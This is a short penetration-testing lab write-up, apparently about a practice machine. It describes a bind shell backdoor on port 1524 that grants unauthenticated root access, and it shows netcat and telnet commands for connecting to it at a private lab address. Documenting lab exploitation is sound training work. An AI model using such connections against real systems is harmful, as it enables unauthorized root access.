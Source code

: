 ### Identifying Vulnerabilites or Weakness
This shell himself act like a backdoor to provide the remote root access to the target system without any authentication.
### Exploitation
To exploit this, We need to just simply connect to this shell using netcat, ncat or telnet and we got the remote access without any other stuff like authentication.
**Using Netcat**
```
nc 192.168.1.103 1524
```
![](../images/exploiting_bind_shell_using_netcat.png)
**Using telnet**
```
telnet 192.168.1.103
```